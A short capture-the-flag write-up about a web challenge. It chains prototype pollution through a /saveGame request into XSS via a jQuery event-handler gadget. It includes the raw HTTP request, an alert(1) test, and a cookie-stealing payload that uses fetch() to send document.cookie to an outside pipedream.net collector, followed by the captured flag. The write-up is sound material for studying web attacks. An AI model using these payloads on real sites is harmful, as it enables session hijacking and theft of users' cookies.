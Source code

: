 ```http
POST /saveGame HTTP/1.1
Host: 20.194.62.226:4423
Content-Length: 198
Accept: application/json, text/plain, */* Chrome/92.0.4515.107 Safari/537.36
Content-Type: application/json;charset=UTF-8
Cookie: fileName=01f032bb-3210-4dd3-9555-078cfa75196d
Connection: close

{"data":{"__proto__":{"__proto__":{"preventDefault":"x", "handleObj":"x","delegateTarget":"<img/src/onerror=alert(1)>"}}}}
```
First, to check if XSS works well, I tried to execute the loadGame() function after saving the game as above.

![](https://user-images.githubusercontent.com/49112423/134794962-40c6441c-6863-4a25-a588-9b56537e5935.png)

As expected, I was able to confirm that the XSS trigger works well.

```plaintext
{"data":{"__proto__":{"__proto__":{"preventDefault":"x", "handleObj":"x","delegateTarget":"<img/src/onerror=fetch(`https://79a9bb50560aa2c77156e03b431dc2b3.m.pipedream.net/f=`+document.cookie)>"}}}}
```
The cookie stealing POC is as above.

- Scenario
  - Save the PoC of Prototype Pollution in the /saveGame
  - Send the code number including the filename and PoC in the report logic.

![](https://user-images.githubusercontent.com/49112423/134795008-eb26caf9-7fa3-4a69-a509-5a729ee8cd57.png)

Based on the above scenario, i were able to steal the flag by trying the exploit.

```plaintext
FLAG : cce2021{5cd5185ef46ce86f6c33543f75752a559fa843ec91a1176144f1a15d468f318d}
```
